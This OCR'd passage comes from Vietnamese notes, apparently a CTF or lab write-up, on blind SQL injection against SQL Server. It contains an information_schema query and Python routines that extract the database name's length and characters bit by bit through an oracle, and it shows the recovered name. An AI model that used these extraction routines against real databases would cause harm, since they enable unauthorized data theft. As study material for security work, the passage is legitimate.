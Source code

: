 2. **Lấy thông tin từ các bảng khác, ví dụ `information_schema`:**
   - Sử dụng các truy vấn phức tạp hơn như:
     ```sql
     SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'
     ```

---
9
### **Khai thác dữ liệu qua Blind SQL Injection**

---

### **1. Xác định tên cơ sở dữ liệu (Database Name)**

#### **Ý tưởng:**
1. Dùng **`LEN(DB_NAME())`** để xác định độ dài tên cơ sở dữ liệu.
2. Sử dụng **`SUBSTRING(DB_NAME(), i, 1)`** để trích xuất từng ký tự trong tên cơ sở dữ liệu.

#### **Triển khai:**

**Xác định độ dài tên cơ sở dữ liệu:**
```python
def dumpNumber(q):
    length = 0
    for p in range(7):  # Duyệt qua từng bit (giới hạn 128 ký tự)
        if oracle(f"({q})&{2**p}>0"):
            length |= 2**p
    return length

db_name_length = dumpNumber("LEN(DB_NAME())")
print(f"Độ dài tên cơ sở dữ liệu: {db_name_length}")
```

**Trích xuất tên cơ sở dữ liệu:**
```python
def dumpString(q, length):
    val = ""
    for i in range(1, length + 1):  # Duyệt qua từng ký tự
        c = 0
        for p in range(7):  # Duyệt qua từng bit của ký tự
            if oracle(f"ASCII(SUBSTRING(({q}),{i},1))&{2**p}>0"):
                c |= 2**p
        val += chr(c)
    return val

db_name = dumpString("DB_NAME()", db_name_length)
print(f"Tên cơ sở dữ liệu: {db_name}")
```

#### **Kết quả:**
```plaintext
Độ dài tên cơ sở dữ liệu: 8
Tên cơ sở dữ liệu: digcraft
```

---